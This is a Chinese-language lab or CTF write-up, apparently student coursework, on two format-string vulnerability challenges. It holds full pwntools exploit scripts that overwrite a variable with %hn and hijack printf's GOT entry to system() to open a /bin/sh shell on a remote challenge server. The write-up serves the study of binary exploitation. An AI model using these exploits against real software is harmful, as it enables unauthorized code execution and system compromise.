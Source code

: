 # 格式化字符串漏洞

## Fsb1

​	首先，根据GDB的调试，buffer字符串存储在栈上offset为8的位置；同时，在程序中输出了x变量的实际地址位置。根据这两个条件，利用%hn修改x变量的值，使得程序调用vuln_code()函数，进而执行"/bin/sh"，完成攻击。

​	在攻击过程中，构造payload=b"AAB%9$hn"+p64(address_x)，其中AAB用于对齐指令，使得x的地址位于buffer的第二个位置，即栈上offset为9的位置。然后在printf(buffer)时，程序调用%hn命令，修改x的值，完成攻击。

![gdb1](/fsb1/gdb1.jpg) 

```python
from pwn import *
p=remote('8.154.20.109',10300)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b"x is: ")
address_x=p.recvline().decode().strip()
print(hex(int(address_x, 16)))

target=p64(int(address_x,16))
payload=b""
payload+=b"AAB%9$hn"
payload+=target
p.sendline(payload)

p.interactive()
```

![flag1](/fsb1/flag1.jpg)  

## Fsb2

​	程序中printf()函数多次被执行，可以通过劫持printf的地址，根据偏移量利用格式化字符串漏洞将printf地址的值修改为system函数，然后传输“/bin/sh”字符串，完成攻击。

​	首先，根据GDB的调试可知，buffer存储在栈上offset=6的位置，通过计算可知buffer的最后一个元素存储在offset=37的位置。在攻击过程中，先通过ELF获取printf的got表地址。在第一轮循环中，构造payload=b"%37$s"+b"A"*(256-len(payload)-8)+p64(printf_got)，利用%s泄露出printf在系统中的实际地址。在第二轮循环中，利用fmtstr_payload构造payload将第一轮循环中获取的地址加上system()与printf()的偏移量，即将内存中的printf()修改为system，最后传输“/bin/sh”完成攻击。

![gdb2](/fsb1/gdb2.jpg) 

```python
from pwn import *
from LibcSearcher import *
from fmtstr import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
# p=process('./fsb2')
p=remote('8.154.20.109',10301)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
elf=ELF('./fsb2')
printf_got=elf.got['printf']
# print(hex(printf_got))
payload=b"%37$s"
payload+=b"A"*(256-len(payload)-8)
payload+=p64(printf_got)
# info(f"payload = {payload}")
p.sendline(payload)
p.recvuntil("Here comes your challenge:\n")
recv = p.recv()
# info(f"recv={recv}")
printf_addr=u64(recv[:6]+b"\x00\x00")
# info(f"printf_addr={hex(printf_addr)}")
libc = LibcSearcher("printf", printf_addr)
printf_offset = libc.dump('printf')
system_offset = libc.dump('system')
system_addr = printf_addr - printf_offset + system_offset
# print(hex(system_addr))
offset=6
payload = fmtstr_payload(offset, {printf_got: system_addr},write_size='short')
print(payload)
p.send(payload)
p.recv()
p.send(b"/bin/sh\0")
p.interactive()
```

![flag2](/fsb1/flag2.jpg) 